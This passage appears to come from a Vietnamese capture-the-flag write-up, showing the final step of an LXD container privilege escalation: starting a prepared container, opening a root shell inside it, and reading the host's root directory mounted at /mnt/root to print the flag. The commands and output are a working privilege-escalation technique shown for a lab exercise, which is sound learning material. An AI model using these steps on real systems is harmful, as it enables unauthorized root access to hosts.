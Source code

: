 **Step 4**: start container và thực hiện leo quyền

```shell
exploiter@mrr3b0t:/tmp$ lxc start hehe
exploiter@mrr3b0t:/tmp$ lxc list
+------+---------+------+------+------------+-----------+
| NAME |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+------+---------+------+------+------------+-----------+
| hehe | RUNNING |      |      | PERSISTENT | 0         |
+------+---------+------+------+------------+-----------+
```

bÙm...

```shell
exploiter@mrr3b0t:/tmp$ lxc exec hehe /bin/sh
~ # id
uid=0(root) gid=0(root)
```

cd tới thư mục /mnt/root, vì file system của victim được mount tại đây.

```shell
# cd /mnt/root/root
/mnt/root/root # ls
flag.txt.txt
/mnt/root/root # cat flag*
cat flag*
                 uuuuuuu
             uu$$$$$$$$$$$uu
          uu$$$$$$$$$$$$$$$$$uu
         u$$$$$$$$$$$$$$$$$$$$$u
        u$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$"   "$$$"   "$$$$$$u
       "$$$$"      u$u       $$$$"
        $$$u       u$u       u$$$
        $$$u      u$$$u      u$$$
         "$$$$uu$$$   $$$uu$$$$"
          "$$$$$$$"   "$$$$$$$"
            u$$$$$$$u$$$$$$$u
             u$"$"$"$"$"$"$u
  uuu        $$u$ $ $ $ $u$$       uuu
 u$$$$        $$$$$u$u$u$$$       u$$$$
  $$$$$uu      "$$$$$$$$$"     uu$$$$$$
u$$$$$$$$$$$uu    """""    uuuu$$$$$$$$$$
$$$$"""$$$$$$$$$$uuu   uu$$$$$$$$$"""$$$"
 """      ""$$$$$$$$$$$uu ""$"""
           uuuu ""$$$$$$$$$$uuu
  u$$$uuu$$$$$$$$$uu ""$$$$$$$$$$$uuu$$$
  $$$$$$$$$$""""           ""$$$$$$$$$$$"
   "$$$$$"                      ""$$$$""
     $$$"                         $$$$"

#This is FLAG#
```
